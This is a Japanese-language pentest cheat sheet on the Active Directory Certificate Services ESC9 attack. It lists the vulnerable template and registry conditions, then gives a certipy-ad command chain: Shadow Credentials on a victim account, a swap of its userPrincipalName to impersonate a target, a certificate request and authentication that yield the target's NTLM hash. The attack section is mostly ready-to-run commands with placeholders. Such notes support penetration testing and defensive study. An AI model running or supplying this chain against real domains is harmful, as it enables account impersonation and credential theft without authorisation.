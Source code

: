 # No Security Extension (ESC9) 攻撃

No Security Extension (ESC9) 攻撃は、`CT_FLAG_NO_SECURITY_EXTENSION` フラグが設定された脆弱な証明書テンプレートを悪用する攻撃。このフラグは、証明書に `szOID_NTDS_CA_SECURITY_EXT セキュリティ拡張機能`が埋め込まれるのを防ぐ。ユーザー アカウントに対する `GenericWrite` 権限を持つユーザーは、`userPrincipalName` を変更して、管理者などのターゲットアカウントになりすまし、脆弱なテンプレートから証明書を要求することができる。発行された証明書は、ターゲットアカウントとして認証するために使用できる。

## ESC9 前提条件

- `StrongCertificateBindingEnforcement` が `2`に設定されていないか(デフォルト：`1` )、または`CertificateMappingMethods`に `UPN` フラグ (`0x4` ) が含まれている
- テンプレートの、`msPKI-Enrollment-Flag`の値に`CT_FLAG_NO_SECURITY_EXTENSION`フラグが含まれている
- テンプレートはクライアント認証を指定している
- アカウントAに対して、アカウントBを侵害する`GenericWrite`権限を持っている

## ESC9 の悪用

このシナリオでは、user1 は user2 に対して `GenericWrite` 権限を持っており、user3 を侵害しようとしています。user2 は、`msPKI-Enrollment-Flag` 値に `CT_FLAG_NO_SECURITY_EXTENSION` フラグを指定する脆弱なテンプレートに登録できる。 まず、`user2 のNTLMハッシュが必要`になる。これは、たとえば Shadow Credentials 攻撃によって取得するか、認諸情報を持っている場合は [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator) で変換できる。

```
certipy-ad shadow auto -u <USER1>@<DOMAIN> -p <PASSWORD> -account <USER2>
```

user2 の `userPrincipalName` を user3 に変更

```
certipy-ad account update -u <USER1>@<DOMAIN> -p <PASSWORD> -user <USER2> -upn <USER3>
```

脆弱な証明書を user2として要求する

```
certipy-ad req -u <USER2>@<DOMAIN> -p <PASSWORD> -ca "<CA_NAME>" -template <Vulnerable Template>
```

user2 の `userPrincipalName` を別のものに変更

```
certipy-ad account update -u <USER1>@<DOMAIN> -p <PASSWORD> -user <USER2> -upn <USER2>@<DOMAIN>
```

証明書を使って認証を行いuser3のNTLMハッシュを取得する

```
certipy-ad auth -pfx user3.pfx -domain <DOMAIN>
```



